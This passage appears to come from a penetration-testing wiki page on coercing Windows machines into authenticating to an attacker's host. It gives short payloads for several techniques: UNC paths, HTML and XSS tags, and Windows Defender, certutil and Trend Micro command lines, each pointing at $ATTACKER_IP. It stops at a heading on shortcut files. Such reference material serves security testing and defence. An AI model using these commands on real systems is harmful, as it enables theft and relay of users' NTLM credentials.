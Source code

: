 ### File explorer

On Windows machines, the file explorer can be used to access remote resources like SMB shares by supplying its UNC path (i.e. `\\$ATTACKER_IP\something`) in the research bar. This leads to an outgoing traffic using SMB.

### Internet browser

Internet browsers can access HTTP servers by supplying their URL (i.e. `http://$IP:$PORT/something`) in the research bar. This technique is rarely used as it can pop up a prompt. This leads to an outgoing traffic using HTTP.

### HTML documents / XSS

HTML documents can be crafted (or injected with content when successfully exploiting an HTML injection attack such as an [Cross-Site Scripting](../../../web-services/inputs/xss.md)) in way that could make browsers authenticate when accessing a remote resource. This leads to an outgoing traffic using SMB.

```markup
<script>
    language='javascript' src="\\$ATTACKER_IP\something\something.js"
</script>
```

```markup
<img src="file://$ATTACKER_IP/something/something.png"/>
```

### Web server file inclusion

{% embed url="https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/" %}

### Windows Defender Remote Scanning

```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\$ATTACKER_IP\file.txt
```

### Certutil

```bash
certutil.exe -syncwithWU  \\$ATTACKER_IP\share
```

### Trend Micro Remote Scanning

```bash
C:\Program Files (x86)\Trend Micro\OfficeScan Clien\PccNt.exe \\$ATTACKER_IP\s\
```

### Shortcut files (scf, lnk, url)
